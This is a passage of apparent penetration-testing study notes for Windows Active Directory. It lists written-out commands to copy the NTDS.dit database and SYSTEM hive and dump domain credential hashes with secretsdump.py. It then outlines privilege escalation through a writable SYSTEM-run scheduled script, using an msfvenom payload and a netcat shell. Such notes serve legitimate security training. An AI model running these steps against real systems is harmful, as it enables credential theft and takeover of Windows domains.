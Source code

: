 ### Windows VM

1. Pass the script to **diskshadow unility** to create the shadow copy
```powershell
PS C:\Temp> diskshadow /s script.txt
```
2. Now copy the NTDS file using **_Robocopy_** to the Temp file we created in the C: drive
```powershell
PS C:\Temp> robocopy /b E:\Windows\ntds . ntds.dit
```
3. Next we get the system registry hive that contains the key needed to decrypt the NTDS file with **_reg save_** command.
```powershell
PS C:\Temp> reg save hklm\system c:\temp\system.hive
```

### Dumping NTML Hashes

1. We can use `secretsdump.py` do decrypt the DA creds on Kali VM

```console
$ secretsdump.py -ntds ntds.dit -system system.hive LOCAL | tee hash-dump
```

# <span style="color:lightblue">Scheduled Tasks</span>
Windows has the ability to schedule tasks, meaning it is possible to execute a command or script on the system at a specific time or at a simultaneous time, for example, every five minutes, etc. you need to manually search for these files.
## <span style="color:lightgreen">Detection</span>
after manual enumeration. I found a file called CleanUp.ps1 in C:\DevTools. check the content of the file 

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/7064bea2-0762-411e-a68a-046af6d8f932)

there is a comment that says script will clean up all your old dev logs every minute and this file will run with SYSTEM privilege which is the highest privilege

## <span style="color:lightgreen">Exploitation</span>
1. Before exploitation check if you can write inside the file using accesschk

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/0610c463-aa5b-4e5a-8d95-4062cd9e72e9)

we have the write permission so we will contact our malicious file within the file

2. use msfvenom to generate a file

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/8c895b02-46dd-4446-a0cd-36a1e86abcad)

3. run nc to get a shell

# <span style="color:lightblue">Abusing GPO permissions</span>
